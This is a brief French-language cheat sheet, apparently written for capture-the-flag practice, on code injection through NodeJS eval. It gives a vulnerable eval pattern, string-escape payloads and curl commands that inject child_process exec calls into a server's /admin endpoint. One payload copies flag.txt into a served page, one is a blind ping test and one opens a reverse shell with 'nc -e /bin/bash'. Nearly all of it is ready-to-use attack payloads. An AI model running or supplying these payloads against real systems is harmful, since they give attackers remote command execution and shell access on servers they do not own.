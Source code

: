 # Injection NodeJS
tester avec: ";", "+", and ".".
 
## basics:

### code 
 eval("var i = '" + input + "'")

### injection:
 '; console.log('injection'); '
 
### execurtera: 
 var i = ''; console.log('injection'); ''
 

## +complexe:


### Code:
eval('const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("' + json[key] + '").digest("hex");');

### échapper les chars:
└──╼ $jq -aR .
"); console.log("successful injection"); //
"\"); console.log(\"successful injection\"); //"

└──╼ $curl -X POST http://127.0.0.1:21440/admin -d '{"key":"\"); console.log(\"successful injection\"); //"}'
successful injection
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""); console.log("successful injection"); //").digest("hex")

curl -X POST http://167.99.88.216:32153/admin -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"cat flag.txt > denied.html\"); //"}'


### Blind:

curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"ping -c 3 127.0.0.1\"); //"}'
sudo tcpdump -i lo icmp

### ReverseShell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"nc -e /bin/bash 127.0.0.1 1234\"); //"}'









